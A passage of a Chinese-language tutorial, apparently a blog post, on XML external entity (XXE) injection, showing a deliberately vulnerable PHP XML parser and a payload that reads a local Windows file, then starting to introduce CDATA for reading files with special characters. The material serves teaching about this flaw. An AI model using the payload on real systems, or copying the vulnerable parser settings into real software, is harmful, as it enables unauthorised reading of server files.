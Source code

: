 ```
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```

**payload:**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

**结果如下图：**

![image-20231218150004652](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150004652.png)

但是因为这个文件没有什么特殊符号，于是我们读取的时候可以说是相当的顺利，**那么我么要是换成下面这个文件呢？**

**如图所示：**

![image-20231218150036824](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150036824.png)

我们试一下：

**结果如下图：**

![image-20231218150101843](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150101843.png)

可以看到，不但没有读到我们想要的文件，而且还给我们报了一堆错，怎么办？这个时候就要祭出我们的另一个神器了------CDATA ，简单的介绍如下(引用自我的一片介绍 XML 的博客)：

> 有些内容可能**不想让解析引擎解析**执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 <> & 或者
> " 字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记
>
> ```
> <![CDATA[
> ```
>
> 
> XXXXXXXXXXXXXXXXX
>
> ]]>
>
> 可以输入任意字符除了 ]]> 不能嵌套
>
> 用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来
